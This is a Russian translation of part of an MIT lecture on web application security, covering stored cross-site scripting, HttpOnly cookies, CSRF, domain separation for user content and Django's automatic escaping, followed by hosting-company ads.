Но представьте себе, что некий пользователь поместил вредоносный HTML-код в раздел комментариев на вашем сайте. Если сервер признаёт этот комментарий валидным и примет его, тогда этот комментарий с вредоносной полезной нагрузкой навсегда там поселится. И когда любой пользователь будет заходить на страницу с этим комментарием, он будет подвергаться этому вредоносному контенту.



Другой пример, одновременной смешной и грустный – это сайты знакомств. Некоторые сайты знакомств на самом деле позволяют пользователям размещать полноценный HTML-контент в своем профиле.

Так что это означает? Когда кто-то одинок, он стремиться найти родственную душу и заходит на ваш сайт. Он собирается запустить в контексте своей сессии HTML, который вы создали, и это может иметь очень разрушительные последствия. Так что встроенные фильтры не защищают от подобных вещей.

**Аудитория:** таким образом, в разделе комментариев злоумышленник, вероятно, размещает сообщение, при котором информация поступает на сервер в переменной сообщения или что-то в этом роде?

**Профессор:** существует множество различных способов, как вы можете себе это представить. Так можно представить, что это будет сообщение — post. Другой способ, который можно представить, это динамический XML HTTP запрос.

**Аудитория:** но если это похоже на сообщение, почему его нельзя просто просканировать и сделать то же самое, что вы…

**Профессор:** да, в этом вы абсолютно правы, мы обсудим эти способы через секунду. Но несомненно, что серверная часть приложения должна быть очень сильна в обороне и относится к подобному с большим недоверием. То есть сервер может разглядеть что-то плохое, чего не заметил браузер.

Таким образом, мы в целом рассмотрели, что собой представляют встроенные фильтры межсайтового скриптинга в браузерах.

Существует ещё одна защита от межсайтового скриптинга, известная как «только HTTP куки», или HTTP-only cookie. Основная идея заключается в том, что сервер может сказать браузеру, что клиентская сторона JavaScript не должна иметь доступа к определенным файлам cookie. Так что, в принципе, сервер может просто отправить значение заголовка в ответ поля кукиз, говоря: «эй, не позволяйте таким клиентам, как JavaScript, манипулировать с этим файлом cookie»! То есть только сервер может производить с кукиз какие-либо операции.

Но это только частичная защита, потому что злоумышленник все еще может выдавать запросы, которые содержат кукиз пользователя. Такой была подделка межсайтового запроса, которую мы рассматривали на прошлой лекции. Таким образом, даже если код JavaScript не может управлять файлами cookie, злоумышленник всё равно может что-то сделать, например, переконфигурировать URL-адрес на какой-то сайт электронной коммерции, скажем, buy.com. Злоумышленник может вставить сюда любую вещь, которую хочет купить, например, автомобиль Ferrari, а затем направит вас на свой сайт attacker, и покупка достанется злоумышленнику.

И хотя такие клиенты, как JavaScript, не могут получить доступ к cookie, нет ничего, что помешает злоумышленнику просто создать такой URL-адрес. Это то, от чего могут защитить CSRF токены, о чём мы поговорим чуть позже.

Ещё одна вещь, которую вы можете попытаться сделать, чтобы предотвратить эти атаки межсайтового скриптинга, это разделение привилегий. Идея заключается в том, что вы хотите использовать отдельный домен для всего содержимого, которое не является доверенным. Например, многие онлайн-серверы предлагали такие вещи, как электронная почта, наборы для улучшения производительности системы, документы Google, Office 365 и так далее. Фактически они используют отдельный домен для размещения пользовательского контента. Например, Google всё ещё использует такой подход и размещает весь пользовательский контент на специальном домене googleusercontent.com. Здесь они сохраняют кешированные копии страниц, письма Gmail и тому подобное. По-моему, этот домен входит в число 25-ти самых посещаемых сайтов.



В чем же преимущество такого размещения контента? Существует надежда, что если есть некоторые типы уязвимостей межсайтового скриптинга или что-то вроде этого в пользовательском контенте, вредоносное содержимое будет локализовано в этой области и не сможет повлиять на весь google.com. Однако это не идеальная защита, потому что отправленное пользователем содержимое может включать в себя ссылки на вещи из google.com. Так что это своего рода частичное решение более обширной проблемы.

Ещё одно, что можно здесь сделать – это провести дезинфекцию пользовательского контента. Идея в том, что вы можете быть браузером или веб-сервером, но получая ненадёжный контент, вы вообще ему не доверяете. Вы проходите через него и делаете так, что он становится нейтральным и никоим образом не может выполнить код или подорвать вашу систему иным способом. Пример тому — система шаблонов Django. Это пример веб-фреймфорка, платформы, которая позволяет автоматизировать и обезопасить некоторые утомительные задачи разработки веб-сайта.



Django облегчает доступ к базе данных, что помогает вам делать такие вещи, как управление сессиями и подержание единого стиля для всего вашего сайта. Поэтому один из способов сохранить этот согласованный внешний вид – это использовать шаблоны. При этом все ваши страницы автоматически начинаются с одного и того же CSS и тому подобное, то же самое касается стилей оформления страниц. Например, вы можете автоматически размещать важные новости вверху страницы. В Django вы можете увидеть шаблон, который выглядит примерно так: тег жирного шрифта, приветствие и имя.

Это похоже на переменную-заполнитель. Эти страницы генерируются динамически, и когда пользователь переходит на сайт Django, сервер Django говорит: «ОК, это имя должно быть где-нибудь, возможно, в кукиз, или в строке CGI». Как как сервер Django динамически генерирует страницу для пользователя, он заменяет эту специальную ссылку значением переменной, так что все довольно просто. Это что-то вроде простенького CGI0сервера, который я вам показал, так что этот шаблон просто отражает здесь пользовательский контент.

Однако Django поступает намного лучше – он производит дезинфекцию пользовательского контента, так как ожидает от него подвоха. Он просто сразу же размещает здесь значение переменной name, а кодирует его таким образом, что этот контент никогда не сможет выйти из контекста HTML и выполнить код JavaScript или что-то в этом роде.

26:25 мин

[Курс MIT «Безопасность компьютерных систем». Лекция 9: «Безопасность Web-приложений», часть 2](https://habr.com/company/ua-hosting/blog/424295/)

Полная версия курса доступна [здесь](https://ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/).

Спасибо, что остаётесь с нами. Вам нравятся наши статьи? Хотите видеть больше интересных материалов? Поддержите нас оформив заказ или порекомендовав знакомым, **30% скидка для пользователей Хабра на уникальный аналог entry-level серверов, который был придуман нами для Вас:** [Вся правда о VPS (KVM) E5-2650 v4 (6 Cores) 10GB DDR4 240GB SSD 1Gbps от $20 или как правильно делить сервер?](https://habr.com/company/ua-hosting/blog/347386/) (доступны варианты с RAID1 и RAID10, до 24 ядер и до 40GB DDR4).

**VPS (KVM) E5-2650 v4 (6 Cores) 10GB DDR4 240GB SSD 1Gbps до декабря бесплатно** при оплате на срок от полугода, заказать можно [тут](https://ua-hosting.company/vpsnl).

**Dell R730xd в 2 раза дешевле?** Только у нас **[2 х Intel Dodeca-Core Xeon E5-2650v4 128GB DDR4 6x480GB SSD 1Gbps 100 ТВ от $249](https://ua-hosting.company/serversnl) в Нидерландах и США!** Читайте о том [Как построить инфраструктуру корп. класса c применением серверов Dell R730xd Е5-2650 v4 стоимостью 9000 евро за копейки?](https://habr.com/company/ua-hosting/blog/329618/)